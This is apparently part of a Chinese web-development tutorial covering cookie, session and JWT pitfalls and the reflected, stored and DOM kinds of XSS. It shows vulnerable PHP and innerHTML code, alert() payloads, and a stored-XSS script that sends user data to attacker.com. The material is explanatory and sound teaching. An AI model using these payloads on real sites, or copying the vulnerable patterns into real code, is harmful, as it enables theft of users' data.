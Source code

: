 - **Cookie作用域**：Domain和Path设置错误会导致Cookie无法发送
- **Session存储**：多服务器部署需要共享Session存储
- **JWT安全**：Payload是可解码的，不要存放敏感信息
- **Token过期**：需要前端处理Token过期的情况

---

## 9️⃣ 常见网络攻击与防护

### 🎯 核心概念

了解常见的**网络安全威胁**和相应的**防护措施**，是开发安全Web应用的基础要求。

### 📖 详细解析

#### XSS（跨站脚本攻击）

**攻击原理**：
```
攻击者将恶意脚本注入网页，当其他用户访问时执行脚本
```

**XSS类型**：

**1. 反射型XSS（非持久型）**：
```html
<!-- 危险的搜索页面 -->
<p>搜索结果：<?php echo $_GET['keyword']; ?></p>

<!-- 攻击URL -->
https://example.com/search?keyword=<script>alert('XSS')</script>

<!-- 实际输出 -->
<p>搜索结果：<script>alert('XSS')</script></p>
```

**2. 存储型XSS（持久型）**：
```html
<!-- 用户发表评论 -->
评论内容：<script>
  fetch('/user/info').then(res => res.json()).then(data => {
    fetch('http://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
</script>

<!-- 其他用户查看评论时执行恶意脚本 -->
```

**3. DOM型XSS**：
```javascript
// 危险代码
const userInput = window.location.hash.substring(1);
document.getElementById('content').innerHTML = userInput;

// 攻击URL
https://example.com/#<img src=x onerror=alert('XSS')>
```
